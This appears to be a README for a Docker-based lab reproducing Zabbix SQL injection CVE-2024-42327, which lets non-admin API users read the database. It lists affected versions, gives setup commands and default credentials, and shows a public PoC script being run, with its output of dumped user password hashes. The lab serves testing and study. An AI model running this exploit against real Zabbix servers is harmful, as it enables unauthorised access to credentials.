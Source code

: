 # Title
A non-admin user account on the Zabbix frontend with the default User role, or with any other role that gives API access can exploit this vulnerability. An SQLi exists in the CUser class in the addRelatedObjects function, this function is being called from the CUser.get function which is available for every user who has API access.

Vulnerable versions:
6.0.0–6.0.31, 6.4.0–6.4.16 and 7.0.0.

## Metrics
CVSSv2: N\A
CVSSv3: 9.9 (Critical)

## Vulnerability Environment
Build and run:
```
docker compose build
docker compose up -d
```
Find Zabbix Web IP:
```
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' zabbix-web-nginx-mysql
```
Default login/password:
`Admin:zabbix`

Stop Environment and remove network
```
docker compose down
docker network rm zabbix-cve-2024-42327-net
```

## Detection and exploitation example
### PoC Exlpoitation:
git clone https://github.com/aramosf/cve-2024-42327.git
```
python3 cve-2024-42327.py -u "http://172.90.240.4:8080/api_jsonrpc.php" -n Admin -p zabbix
Valid session token: 5dcee00f604a687c10161863d349784e
Admin, Zabbix, Administrator, 1, $2y$10$92nDno4n0Zm7Ej7Jfsz8WukBfgSS/U0QkIuu8WkJPihXBb2A1UrEK
guest, , , 2, $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06
```

## Exploits and PoCs
https://github.com/aramosf/cve-2024-42327

## Nuclei Template

## CTF Rooms

## References
[SecurityOnline.info: PoC Exploit Releases for Critical Zabbix Vulnerability – CVE-2024-42327](https://securityonline.info/poc-exploit-releases-for-critical-zabbix-vulnerability-cve-2024-42327/)   
[NIST: CVE-2024-42327](https://nvd.nist.gov/vuln/detail/CVE-2024-42327)   
[Github: zabbix-docker](https://github.com/zabbix/zabbix-docker/)   
[Docker Hub: zabbix](https://hub.docker.com/u/zabbix)   
[Zabbix Documentation: Installation from containers](https://www.zabbix.com/documentation/current/en/manual/installation/containers)   
